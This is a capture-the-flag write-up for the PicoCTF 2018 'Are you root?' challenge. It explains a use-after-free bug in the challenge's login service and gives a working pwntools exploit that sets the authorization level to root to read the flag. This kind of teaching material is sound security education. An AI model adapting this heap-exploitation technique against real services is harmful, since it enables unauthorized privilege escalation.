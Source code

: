 # Are you root?

This is a 550-point binary exploitation problem (level 3) from PicoCTF 2018.

### Problem Description

Can you get root access through this [service](./auth) and get the flag? Connect with `nc 2018shell.picoctf.com 45906`. [Source](./auth.c).

### Reconnaissance

Initial recon shows we have a 64-bit ELF binary with no PIE:

![./initial_recon.png](./initial_recon.png)

Well, let's start by compiling the source code. There are no obvious security vulnerabilities that show up in compiler warnings.

This looks like a heap exploitation problem. It looks like maybe there's a use after free vulnerability. Maybe I can delete a new user, then edit the freed block somehow, then create a new user and have their authorization level magically be 5 (root).

Okay, when a user logs in, they get allocated a struct containing a pointer to their name and an authorization level. It appears that the bug is that when a user logs out, the name is freed, but the struct is not. So, I should be able to give a user a name like "555555555", log out, then create a new user and the struct allocated for the second user will contain the block of memory that previously contained the first user's name. The first eight bytes of that block will get replaced with a pointer to the new name, leaving one character, "5", remaining. I can then try to get the flag without setting auth.

Let's just try doing that:

![./first_attempt.png](./first_attempt.png)

Not bad! I have an authorization level of 53, not 5. But that's close enough that I should be able to step in with `gdb` and figure out what's generating that 3 and how to get rid of it.

Okay, the first thing I notice, stepping through the code and reproducing my efforts, is that the name and authorization level both get put in fastbins -- which don't get freed right away when a fastbin is freed.

Here I've logged in as user "555555555", I logged out, then I logged in as user "4444" and this is the heap after `malloc`ing the second username:

![./heap_after_second_login.png](./heap_after_second_login.png)

Well that looks like exactly what I want! Well, not quite:

![./wrong_auth_value.png](./wrong_auth_value.png)

I want the actual integer `5` to be stored on the stack, not the string representation of it. So my first user must have a name of "55555555\x05". Easy enough.

That gives me the flag:

![./got_flag.png](./got_flag.png)

Here's the exploit code:

```python
## Exploit areyouroot
## By Sudoite

from pwn import *

local = False
debug = False
if local:
	p = process('./auth')
else:
	p = remote("2018shell.picoctf.com", 45906)

if local and debug:
	gdb.attach(p, '''
		break *0x400c0c
		continue
		''')
# 0x400c0c: malloc(sizeof(user))

p.recvuntil("> ")
p.send("login 55555555\x05\n")
p.recvuntil("> ")
p.send("reset\n")
p.recvuntil("> ")
p.send("login 4444\n")
p.recvuntil("> ")
p.send("get-flag\n")
p.interactive()
```

Short and sweet.

### Comparison to Other Approaches

The three write-ups on CTF Time used exactly the same approach. I picked up one `pwntools` technique from [0n3m4ns4rmy](https://github.com/0n3m4ns4rmy/ctf-write-ups/blob/master/Pico%20CTF%202018/root/exploit.py):

`r.sendafter('> ', 'login ' + 'A'*8 + p64(0x5) + '\n')`

does the same thing as the syntax I've been using:
```python
r.recvuntil("> ")
r.send("login AAAAAAAA" + p64(0x5) + "\n")
```

Maybe I'll try that in the future.
